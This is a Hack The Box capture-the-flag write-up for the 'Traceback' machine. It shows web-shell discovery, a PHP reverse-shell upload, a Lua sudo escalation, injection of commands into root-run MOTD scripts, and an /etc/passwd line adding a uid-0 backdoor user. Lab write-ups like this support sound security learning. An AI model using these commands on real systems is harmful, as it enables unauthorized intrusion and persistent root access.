_[<-- Back](https://flast101.github.io/HTB-writeups)_

# Traceback
## 1- Overview

Retire: 15 August 2020    
Writeup: 15 August 2020

### Summary

**2- Enumeration**   
2.1- Nmap Scan   
2.2- OSINT   
2.3- Foothold   

**3- Privilege Escalation**   
3.1- Lua-ctivities
3.2- Getting user.txt   
3.3- Post-Compromise Enumeration   
3.4- The Message Of The Day   
3.5- Getting root.txt   
3.6- Root Privilege Escalation   

* * *
## 2- Enumeration
### 2.1- Nmap Scan

First things first, we begin with a **`nmap`** scan:
~~~
root@kali:~# nmap --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.181

Nmap scan report for 10.10.10.181
Host is up, received user-set (0.028s latency).
Scanned at 2020-03-15 09:26:12 CET for 574s
Not shown: 65533 closed ports
Reason: 65533 resets

PORT   STATE SERVICE REASON         VERSION

22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDbMNfxYPZGAdOf2OAbwXhXDi43/QOeh5OwK7Me/l15Bej9yfkZwuLhyslDCYIvi4fh/2ZxB0MecNYHM+Sf4xR/CqPgIjQ+NuyAPI/c9iXDDhzJ+HShRR5WIqsqBHwtsQFrcQXcfQFYlC+NFj5ro9wfl2+UvDO6srTUxl+GaaabePYm2u0mlmfwHqlaQaB8HOUb436IdavyTdvpW7LTz4qKASrCTPaawigDymMEQTRYXY4vSemIGMD1JbfpErh0mrFt0Hu12dmL6LrqNmUcbakxOXvZATisHU5TloxqH/p2iWJSwFi/g0YyR2JZnIB65fGTLjIhZsOohtSG7vrPk+cZ
|   256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL4LOW9SgPQeTZubVmd+RsoO3fhSjRSWjps7UtHOc10p

80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us

Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.16 (93%), Linux 3.18 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Android 4.2.2 (Linux 3.4) (93%), Linux 2.6.32 (92%), Linux 3.1 - 3.2 (92%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=3/15%OT=22%CT=1%CU=43160%PV=Y%DS=2%DC=T%G=Y%TM=5E6DE8E
OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10F%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Uptime guess: 14.343 days (since Sun Mar  1 01:21:53 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 110/tcp)
HOP RTT      ADDRESS
1   27.02 ms 10.10.14.1
2   26.98 ms 10.10.10.181

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 15 09:35:46 2020 -- 1 IP address (1 host up) scanned in 575.19 seconds
~~~

Nothing special here, we find SSH on port 22 and a web site on port 80.

### 2.2- OSINT

Let's have a look on the web site:



Ohmy ! You're such a bad boy **Xh4H**, but not a stealthy one. If we google this name, we find several things:



Looking at the Tweeter account, we have to pay attention to what happened when the box was released. It was released on 14 march 2020. Here is what he wrote at this time:

The only interesting tweet is the last one. A webshell is not something that a Hack The Box engineer (see his [Linkedin profile](https://www.linkedin.com/in/juanjimenezbleye/), which address is on the site [https://www.xh4h.com](https://www.xh4h.com)) is interested in and he wrote on the webpage that he "left a backdoor for all the net". There must be something with this.

On the Github repo, we find:



So let's see:

- We know there is a backdoor on the web site
- The hacker pointed out a Github repository which contains a list of web shells

The conclusion of this part is simply that one of these web shells is our backdoor, ie. it has been uploaded on the web site by Xh4H. We should try them out.

### 2.3- Foothold

Indeed, we just have to try them one by one to find that smevk.php (SmEvK v3) is the right one:



**"admin:admin"** allows to access the main page, which also gives us a bunch of informations about the target:



Now, as this is a web shell, it is easy to get a reverse shell. The "Upload file" field seems appropriate.

Although some other reverse shells would work (check out my [cheat sheet](https://flast101.github.io/reverse-shell-cheatsheet/) for more reverse shells), we choose to use the file **[php-reverse-shell.php](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)** that you can also download [here](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz).

We change the IP and port according to our needs and upload the file.
Once it is done, we set up a Netcat listener on our attacking machine, and we just have to "curl" the php shell you uploaded... We have our reverse shell:



At this point, the shell is not good. We can use the following commands to improve our shell:
1. `$ python3 -c 'import pty; pty.spawn("/bin/bash")'`
2. `Ctrl+Z`
3. `$ stty raw -echo`
4. `$ fg`

_Side note: python is not installed, that's why we use **python3** here._

We should now have a real shell (interactive, auto-completion, no exit from the shell when killing a process with Ctrl+C...). The screen should look like this:



* * *
## 3- Privilege Escalation

### 3.1- Lua-ctivities
At this point, we should always first look around to see what we've got and only then use an enumeration tool as linPEAS.

Looking at the home folder, we get the following:

~~~
webadmin@traceback:/home/webadmin$ ll
total 44
drwxr-x--- 5 webadmin sysadmin 4096 Mar 16 04:03 ./
drwxr-xr-x 4 root     root     4096 Aug 25  2019 ../
-rw------- 1 webadmin webadmin  105 Mar 16 04:03 .bash_history
-rw-r--r-- 1 webadmin webadmin  220 Aug 23  2019 .bash_logout
-rw-r--r-- 1 webadmin webadmin 3771 Aug 23  2019 .bashrc
drwx------ 2 webadmin webadmin 4096 Aug 23  2019 .cache/
drwxrwxr-x 3 webadmin webadmin 4096 Aug 24  2019 .local/
-rw-rw-r-- 1 webadmin webadmin    1 Aug 25  2019 .luvit_history
-rw-r--r-- 1 webadmin webadmin  807 Aug 23  2019 .profile
drwxrwxr-x 2 webadmin webadmin 4096 Feb 27 06:29 .ssh/
-rw-rw-r-- 1 sysadmin sysadmin  122 Mar 16 03:53 note.txt

webadmin@traceback:/home/webadmin$  ll .ssh/
total 8
drwxrwxr-x 2 webadmin webadmin 4096 Feb 27 06:29 ./
drwxr-x--- 5 webadmin sysadmin 4096 Mar 16 04:03 ../
-rw------- 1 webadmin webadmin    0 Feb 27 06:29 authorized_keys

webadmin@traceback:/home/webadmin$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.

webadmin@traceback:/home/webadmin$ cat .bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
rm privesc.lua
logout
~~~

What do we have here ?
- We can read and write "authorized_keys" file. We could insert our public key to then ssh as webadmin user to keep an access to the machine but it is useless here.
- Sysadmin left us a tool to pratice Lua, a programming language.
- The webadmin user already practiced and he wrote a file he called "privesc.lua".

Hmm, I wonder if this is a clue... What do you think ? ;-))
OK, what can we sudo as "webadmin" ?
~~~
webadmin@traceback:/home/webadmin$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
~~~

Indeed we can execute the command **`/home/sysadmin/luvit privesc.lua`** as _**sysadmin**_ and this is what was done previously as mentioned in history file.

The file _**privesc.lua**_ has been removed but we can write anything we want in our home directory. We just want to know what is the lua command to execute bash and we will get a _**sysadmin**_ user shell.

[Lua](http://www.lua.org/about.html) is a scripting language, and _**sysadmin**_ installed [luvit](https://luvit.io/) which implements some APIs in Lua, and allows to run ***.lua*** script files.
Going through [lua documentation](http://www.lua.org/manual/5.3/), we can easily find the link to the chapter **[Operating System Facilities]((http://www.lua.org/manual/5.3/manual.html#6.9))**. There, we find the command **`os.execute`**:



### 3.2- Getting user.txt

We found an easy way to escalete to _**sysadmin**_ user. Let's do this:
~~~
webadmin@traceback:/home/webadmin$ echo 'os.execute("/bin/sh")' > privesc.lua
webadmin@traceback:/home/webadmin$ sudo -u sysadmin /home/sysadmin/luvit privesc.lua
$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
~~~

And we find ***user.txt*** file in ***sysadmin*** home directory:



### 3.3- Post-Compromise Enumeration

We set up a web server on our machine with **`python3 -m http.server 80`**, download linPEAS on the target using **`wget`**, and run it:
~~~
sysadmin@traceback:~$ wget http://10.10.14.20/linpeas.sh
--2020-08-14 23:06:07--  http://10.10.14.20/linpeas.sh
Connecting to 10.10.14.20:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 160507 (157K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 156.75K   701KB/s    in 0.2s

2020-08-14 23:06:07 (701 KB/s) - 'linpeas.sh' saved [160507/160507]

sysadmin@traceback:~$ chmod +x linpeas.sh
sysadmin@traceback:~$ ./linpeas.sh
~~~

It's not easy to find, but if you have a close look, you will notice something about **motd** also known as **Message Of The Day**.

First, some files in _**/etc/update-motd.d/**_ were modified udring the last 5 minutes:



Then, those same files are writable by our _**sysadmin**_ user:

And last but not least, a running process copies files located in _**/var/backups/.update-motd.d**_ into _**/etc/update-motd.d**_

We must be clear about it and know exactely what's going on. A good tool to do this is **`pspy`**. [pspy](https://github.com/DominicBreuker/pspy) is a command line tool designed to snoop on processes without need for root permissions.
Let's [download](https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64) it on the target and run it:



We see here that the files we mentioned are copied every minute. As this is not done scheduled the **crontab**, it must be done by a timer. Looking at the timers, it is easy to confirm:

~~~
sysadmin@traceback:~$ ll /lib/systemd/system/*.timer
-rw-r--r-- 1 root root 156 May  7  2019 /lib/systemd/system/apt-daily.timer
-rw-r--r-- 1 root root 184 May  7  2019 /lib/systemd/system/apt-daily-upgrade.timer
-rw-r--r-- 1 root root 170 Oct 15  2018 /lib/systemd/system/fstrim.timer
-rw-r--r-- 1 root root 161 Jul  8  2019 /lib/systemd/system/motd-news.timer
-rw-r--r-- 1 root root 144 Jan 17  2018 /lib/systemd/system/phpsessionclean.timer
-rw-r--r-- 1 root root 490 Jan 28  2018 /lib/systemd/system/systemd-tmpfiles-clean.timer
-rw-r--r-- 1 root root 242 Apr  9  2019 /lib/systemd/system/ureadahead-stop.timer

sysadmin@traceback:~$ cat /lib/systemd/system/motd-news.timer
[Unit]
Description=Message of the Day

[Timer]
OnCalendar=00,12:00:00
RandomizedDelaySec=12h
Persistent=true
OnStartupSec=1min

[Install]
WantedBy=timers.target

sysadmin@traceback:~$ cat /lib/systemd/system/motd-news.service
[Unit]
Description=Message of the Day
After=network-online.target
Documentation=man:update-motd(8)

[Service]
Type=oneshot
ExecStart=/etc/update-motd.d/50-motd-news --force

~~~

What about the file that are copied ? Actually, the files are executable scripts and those that are located in ***/etc/update-motd.d/*** are writable while the files located in ***/var/backups/.update-motd.d/*** can not be read or writen as ***sysadmin***.

~~~
sysadmin@traceback:~$ ll /etc/update-motd.d/
total 32
drwxr-xr-x  2 root sysadmin 4096 Aug 27  2019 ./
drwxr-xr-x 80 root root     4096 Mar 16 03:55 ../
-rwxrwxr-x  1 root sysadmin  981 Aug 15 00:32 00-header*
-rwxrwxr-x  1 root sysadmin  982 Aug 15 00:32 10-help-text*
-rwxrwxr-x  1 root sysadmin 4264 Aug 15 00:32 50-motd-news*
-rwxrwxr-x  1 root sysadmin  604 Aug 15 00:32 80-esm*
-rwxrwxr-x  1 root sysadmin  299 Aug 15 00:32 91-release-upgrade*

sysadmin@traceback:~$ ll /var/backups/.update-motd.d/
total 32
drwxr-xr-x 2 root root 4096 Mar  5 02:56 ./
drwxr-xr-x 3 root root 4096 Aug 25  2019 ../
-rwxr-xr-x 1 root root  981 Aug 25  2019 00-header*
-rwxr-xr-x 1 root root  982 Aug 27  2019 10-help-text*
-rwxr-xr-x 1 root root 4264 Aug 25  2019 50-motd-news*
-rwxr-xr-x 1 root root  604 Aug 25  2019 80-esm*
-rwxr-xr-x 1 root root  299 Aug 25  2019 91-release-upgrade*
~~~

Conclusion, we have RW access to scripts that are executed with root permission and are overwritten every minute.
Now the plan is to modify and execute these scripts to make them grant us root privileges before they are overwritten.

However, I won't be able to say "I love it when a plan comes together" if I don't know more about **The Message Of The Day**.

### 3.4- The Message Of The Day

Information about **motd**:
- [Ubuntu Manuals](http://manpages.ubuntu.com/manpages/bionic/man5/update-motd.5.html)
- [LinuxConfig.org](https://linuxconfig.org/how-to-change-welcome-message-motd-on-ubuntu-18-04-server)

Linux system administrators often communicate important information to console and remote users by maintaining text, which is displayed by the pam_motd module on interactive shell logins like SSH shell.

Message of the day is modular hence split into various scripts executed in order from lowest to highest number value as part of the script's file name prefix. The following scripts are located within the _**/etc/update-motd.d**_ directory as part of the default motd daemon configuration:
~~~
$ ls /etc/update-motd.d/
00-header     50-landscape-sysinfo  80-esm        90-updates-available  95-hwe-eol      98-fsck-at-reboot
10-help-text  50-motd-news          80-livepatch  91-release-upgrade    97-overlayroot  98-reboot-required
~~~

These executable scripts in _**/etc/update-motd.d/**_ are executed by pam_motd as the root user at each login.
For example, here is the content of the file ***00-header***:
~~~
sysadmin@traceback:~$ cat /etc/update-motd.d/00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

echo "\nWelcome to Xh4H land \n"
~~~

**Very nice! Each time we login, whatever the user, the scripts located in */etc/update-motd.d/* are executed as root user.**
We just need to find a way to login using SSH and we are done!

### 3.5 Getting root.txt

The SSH login part is easy as we have acces to our ***.ssh/authorized_keys*** file.
Let's add our public key corresponding to our attacking machine private key to the ***.ssh/authorized_keys*** file.

On our machine: **`# cat .ssh/id_rsa.pub`**
On the target: **`$ echo "cat_id_rsa_result" >> /home/sysadmin/.ssh/authprized_keys`**

Now let's try to log in:
~~~
root@kali:~# ssh -i id_rsa sysadmin@10.10.10.181
Warning: Identity file id_rsa not accessible: No such file or directory.
The authenticity of host '10.10.10.181 (10.10.10.181)' can't be established.
ECDSA key fingerprint is SHA256:7PFVHQKwaybxzyT2EcuSpJvyQcAASWY9E/TlxoqxInU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.181' (ECDSA) to the list of known hosts.
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land

Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
$ exit
Connection to 10.10.10.181 closed.
~~~

It works and we see it displays "Welcome to Xh4H land", which means it probably displays the output of the ***00-header*** script execution.

Now let's try to modify the ***00-header*** script and login **immediately** after that:
~~~
sysadmin@traceback:$ echo 'cat /root/root.txt' >> /etc/update-motd.d/00-header
~~~

When we login as ***sysadmin***:



Very good! We got the root.txt flag! But is it enough for you ? For me it is not because we didn't root the box...

### 3.6- Root Privilege Escalation

We have several options here. The most common are:

- insert a public key in the ***authorized_keys*** file in the ***/root/.ssh*** directory,
- create a new root user by adding it in the ***/etc/passwd*** file.

As we just used the first option in the previous chapter, let's try the second one.

We will create a user **"newroot"** with the password **"newrootpass"**, using md5crypt algorithm to hash the password.

First, we hash the password with **`openssl`** using the salt "evil":
~~~
root@kali:~$ openssl passwd -1 -salt evil newrootpass
$1$evil$eu2ySQGNgNghQm4ASTnKa.
~~~

We create a file named "newroot" containing the line we want to add to the /etc/passwd file on the target:

~~~
sysadmin@traceback:~$ echo 'newroot:$1$evil$eu2ySQGNgNghQm4ASTnKa.:0:0:root:/root:/bin/bash' > newroot
sysadmin@traceback:~$ cat newroot
newroot:$1$evil$eu2ySQGNgNghQm4ASTnKa.:0:0:root:/root:/bin/bash
~~~

Then, we modify the ***00-header*** file:
~~~
sysadmin@traceback:~$ echo 'cat /home/sysadmin/newroot >> /etc/passwd' >> /etc/update-motd.d/00-header
~~~
And finally, we immediately login as sysadmin to make the script be executed:

Here is the result:   



We rooted the box ! **I love it when a plan comes together. ;-))**

_[<-- Back](https://flast101.github.io/HTB-writeups)_

<!-- Global site tag (gtag.js) - Google Analytics -->

